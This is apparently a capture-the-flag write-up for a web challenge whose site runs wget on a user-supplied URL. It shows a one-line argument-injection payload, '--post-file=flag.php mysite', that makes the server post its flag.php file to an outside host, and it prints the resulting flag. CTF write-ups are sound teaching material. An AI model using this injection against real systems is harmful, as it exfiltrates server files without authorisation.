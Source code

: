 # downloader-v1 (50pts, 123 solved) Web [Easy]

## First look
When we open the website, we can enter an URL to download, when we follow the example (`http://example.com/image.jpg`), we get some shell output:

```
...
$ wget https://example.com/image.jpeg 2>&1
...
```

## Solving
From the page source, we can see that we need to get the contents of `flag.php`. I just simply added to the original query `--post-file=flag.php mysite`.  
So it becomes:
```
http://example.com/image.jpg --post-file=flag.php mysite
```
And after a second, we get our flag: `DCTF{6789af26f90396678909a99bf46ba3a78b2f1b349fbc4385e6c50556c1d0c9ff}`